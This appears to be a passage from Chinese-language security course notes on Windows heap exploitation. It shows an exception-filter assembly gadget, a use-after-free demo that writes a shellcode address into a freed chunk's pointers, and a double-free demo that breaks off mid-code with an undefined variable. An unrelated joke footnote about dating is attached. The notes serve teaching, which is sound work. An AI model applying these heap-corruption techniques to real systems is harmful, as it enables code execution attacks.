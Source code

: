 	```asm title="将要利用的异常管理器的汇编语句"
	; (1)
	mov  ecx, dword ptr [esp+4]
	mov  eax, dword ptr ds:[7C5D044Ch]
	mov  dword ptr ds:[7C5D044Ch], ecx
	ret  4
	; (2)
	```

    1. `SetUnhandledExceptionFilter(myTopLevelFilter)`
    2. 前向指针 addr ← shellcode addr 攻击者可以采用跳板

#### 可能存在的漏洞
- 写入已释放内存

    ```c linenums="1" hl_lines="12-14"
	typedef struct _unalloc {
	    PVOID fp;
	    PVOID bp;
	} unalloc, *Punalloc;
	char shellcode[] = "\x90\x90\x90\xb0\x06\x90\x90";
	int _tmain(int argc, _TCHAR* argv[]) {
	    Punalloc h1;
	    HLOCAL h2 = 0;
	    HANDLE hp;
	    hp = HeapCreate(0, 0x1000, 0x10000);
	    h1 = (Punalloc)HeapAlloc(hp, HEAP_ZERO_MEMORY, 32);     //(1)
	    HeapFree(hp, 0, h1);                                    //(2)
	    h1->fp = (PVOID)(0x042B17C - 4);                        //(3)
	    h1->bp = shellcode;
 	    h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 32);               //(4)
	    HeapFree(hp, 0, h2);                                    //(5)
        return 0;
	}
	```

    1. 从该堆中分配了一个`32`字节的内存块，用`h1`表示
    2. “错误地”释放
    3. 用户数据则被错误地写入已释放内存块中
    4. 对`HeapAlloc()`的调用使得`HeapFree()`的地址被shellcode的地址所覆盖
    5. 控制权转移到shellcode

- 双重释放

    ```c linenums="1" hl_lines="16-17" title="基于Windows 2000漏洞"
	int main(int argc, char *argv[]) {
		HANDLE hp;
		HLOCAL h1, h2, h3, h4, h5, h6, h7, h8, h9;
		hp = HeapCreate(0,0x1000,0x10000);
		h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 16);
		memset(h1, 'a', 16);
		h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 16);
		memset(h2, 'b', 16);
		h3 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 32);
		memset(h3, 'c', 32);
		h4 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 16);
		memset(h4, 'd', 16);
		h5 = HeapAlloc(hp, HEAP_ZERO_MEMORY,8)
		memset(h5, 'e', 8);
		HeapFree(hp, 0, h2);
		HeapFree(hp, 0, h3);
		HeapFree(hp, 0, h3);
		h6 = HeapAlloc(hp, 0, 64);
		memset(h6, 'f', 64);
		strcpy((char *)h4, buffer);
		h7 = HeapAlloc(hp, 0, 16);

[^1]: 首先，约会n个女孩；然后，约会更多的女孩，但是娶比之前n个女孩都好的那个；最后停止约会；如果你能一共约会2n个女孩的话，那么只有很小的概率，你会和最差的女孩结婚